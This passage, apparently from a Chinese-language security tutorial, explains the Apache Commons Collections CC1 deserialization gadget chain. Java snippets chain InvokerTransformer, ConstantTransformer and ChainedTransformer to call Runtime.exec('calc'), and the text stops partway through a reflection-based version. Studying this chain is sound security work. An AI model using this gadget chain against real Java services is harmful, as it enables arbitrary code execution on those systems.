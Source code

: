 ```java
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
```

其 transform 方法接收了一个Object，并调用这个Object方法，方法名、方法所需要的参数类型，而这三个都是我们能控制的，所以可以通过这里执行命令，

```java
Runtime runtime = Runtime.getRuntime();
        Transformer invoketransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        invoketransformer.transform(runtime);
```

但是这里需要传入一个Runtime的实例进去，而再现实中，不会有这种反序列化之后再往 transform 方法中传入Runtime的实例，所以需要想一下其他办法，这里就需要用到 ConstantTransformer 类了，上面说到他的作⽤其实就是包装任意⼀个对象，在执⾏回调时返回这个对象，那么可以这样：

```java
Object constantTransformer = new ConstantTransformer(Runtime.getRuntime()).transform(123);
Transformer invoketransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
invoketransformer.transform(constantTransformer);
```

再加上 ChainedTransformer 类就是这样：

```java
ChainedTransformer chain = new ChainedTransformer(new Transformer[]{
                  new ConstantTransformer(Runtime.getRuntime()),
                  new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})

          });
          chain.transform(123);
```

这样只需要 ChainedTransformer 反序列化后调用 transform 方法即可实现任意代码执行，我们只需要将其序列化即可：

![1](./img/294.png)

但是却发生了报错，因为这里的 Runtime.getRuntime() 返回的是一个 Runtime 的实例，但是 Runtime 并没有继承 Serializable ，所以会序列化失败，这里就需要用到反射机制了，

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;

import java.io.ByteArrayOutputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;

public class cc1 {

    public static void main(String[] args) throws IOException {
        ChainedTransformer chain = new ChainedTransformer(new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
```